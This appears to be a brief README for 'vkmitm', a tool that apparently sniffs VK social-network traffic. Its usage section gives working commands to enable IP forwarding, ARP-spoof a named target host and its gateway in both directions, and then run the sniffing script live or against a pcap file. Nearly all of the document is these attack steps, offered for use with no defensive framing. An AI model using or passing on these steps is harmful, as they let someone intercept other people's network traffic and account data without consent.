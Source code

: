 # Using

Tested on MacOs X, with dsniff from macports.

Start arp spoofing:

Target - 192.168.2.151
Gate - 192.168.2.1

```
$ sudo sysctl -w net.inet.ip.forwarding=1
$ sudo arpspoof -i en1 -t 192.168.2.151 192.168.2.1
$ sudo arpspoof -i en1 -t 192.168.2.1 192.168.2.151
```

Sniffing data on en1:

```
$ ./sniff_vk.py -i en1
```

Parsing pcap file:
```
$ ./sniff_vk.py -p test.pcap
```

# vkmitm

